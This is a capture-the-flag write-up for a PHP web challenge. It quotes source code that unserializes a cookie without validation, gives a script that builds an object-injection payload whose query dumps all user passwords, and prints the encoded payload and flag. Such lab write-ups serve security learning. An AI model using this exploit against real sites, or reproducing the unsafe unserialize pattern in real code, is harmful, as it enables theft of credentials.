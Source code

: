 In index.php, its just given 'cant hack us!!'. When we curl this website, we can see that the source is in source1.php and source2.php.
In source1.php we can see that, the cookie is serialized without any validation. 
```
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```
So, we need to write a script to get a serialised payload.
```
<?php

class sql
{
    public $query;
    public $conn;

    function __construct()
    {
        $this->query='SELECT group_concat(password) as username from users;';
        $this->conn=NULL;

    }

}
$new=new sql();
echo urlencode(base64_encode(serialize($new)));
```
We got the payload as :TzozOiJzcWwiOjI6e3M6NToicXVlcnkiO3M6NTM6IlNFTEVDVCBncm91cF9jb25jYXQocGFzc3dvcmQpIGFzIHVzZXJuYW1lIGZyb20gdXNlcnM7IjtzOjQ6ImNvbm4iO047fQ%3D%3D

Give this value in the leet_hax0r cookie and we get the flag
flag:  WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}

